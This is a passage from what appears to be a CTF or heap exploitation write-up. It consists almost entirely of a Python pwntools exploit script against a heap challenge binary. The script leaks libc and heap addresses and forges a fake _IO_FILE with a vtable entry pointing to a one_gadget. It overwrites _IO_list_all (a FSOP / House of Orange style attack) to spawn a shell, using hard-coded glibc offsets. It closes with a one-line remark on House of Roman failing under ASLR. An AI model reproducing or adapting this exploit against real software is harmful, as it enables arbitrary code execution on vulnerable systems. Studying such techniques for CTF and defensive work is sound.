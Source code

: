 ```python
edit(name_len,name_payload)                 # edit 0

new(0x1000,"\x78")                         # new 1
new(0x400,"\x78");                            # new 2

show()

p.recvuntil("Name of house : ")
unsorted_libc=u64(p.recvuntil("House")[0:6].ljust(8,"\x00"))
libc_base=unsorted_libc-0x3c4178

oneoff=0x45206
onegadget=oneoff+libc_base
io_list_all_off=0x3c4520
io_list_all=libc_base+io_list_all_off

name_len=0x10
name_payload=name_len*'a'

edit(name_len,name_payload)                           # edit 1
show()                                                # leak heap
p.recvuntil("a"*16)
heap=u64((p.recvuntil("House")[0:6]).ljust(8,"\x00"))

io_file_plus=heap+0x410+0x20
vtable=p64(0)*3+p64(onegadget)

pad_payload='\x00'*0x400+'\x00'*0x20

fsop_payload='/bin/sh\x00'+p64(0x61)             # 0x10
fsop_payload+=p64(0)+p64(io_list_all-0x10)        #0x20       
fsop_payload+=p64(2)+p64(3)                      
fsop_payload+=vtable
fsop_payload=fsop_payload.ljust(0xd8,'\x00')
fsop_payload+=p64(io_file_plus+0x30)
payload=pad_payload+fsop_payload
edit(len(payload),payload)

log.success("io_list_all: "+hex(io_list_all))
log.success("heap: "+hex(heap))
p.sendline('1')

p.interactive()


```

### house of roman
> aslr 下从未爆破成功过